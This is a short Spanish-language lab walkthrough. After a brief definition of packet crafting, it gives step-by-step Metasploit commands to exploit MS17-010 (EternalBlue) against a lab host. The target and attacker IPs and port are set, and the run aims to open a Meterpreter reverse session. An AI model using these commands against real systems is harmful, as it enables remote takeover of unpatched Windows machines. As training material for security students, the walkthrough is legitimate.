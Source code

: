 ### ¿Qué es el Packet crafting?

El Packet Crafting es una técnica utilizada en ciberseguridad donde los paquetes son creados o manipulados manualmente para explotar vulnerabilidades en una red o sistema. Este método permite personalizar el tráfico de red para llevar a cabo diversas actividades maliciosas, como el reconocimiento de la red, ataques de denegación de servicio o la filtración de datos.

Técnica que hace uso de la manipulación o creación de paquetes TCP/IP para saltarse sistemas de seguridad o efectuar ataques de enmascaramiento (spoofing).

## Explotación

Comenzamos con el ataque ya conocida la vulnerabilidad, para este caso usaremos **Metasploit** con el exploit **EternalBlue**.

Dentro de metasploit buscaremos la vulnerabilidad EternalBlue basandonos en su Rank o Descripción.

```powershell
msfconsole

> search ms17-010

or 

> search eternalblue

> use exploit/windows/smb/ms17_010_eternalblue

or 

> use 0

> show options
```

Posteriormente configuraremos las opciones de *show options*, aqui se nos piden ciertos parametros obligatorios y otros opcionales para comenzar con el ataque.

Se procede a configurar los parámetros necesarios como la ip de activo y la ip atacante y el puerto.

![showoptions](https://i.postimg.cc/k5TQX1FP/shwop.png)

```powershell
> set RHOSTS 10.10.90.82
> set LPORT 65000
> set LHOST 10.8.42.68

> run
```

Finalizada la configuración procedemos con la ejecución del exploit, el objetivo es obtener una sesión de meterpreter.

![runBlue](https://i.postimg.cc/wBGz4Cn3/bluaat.png)
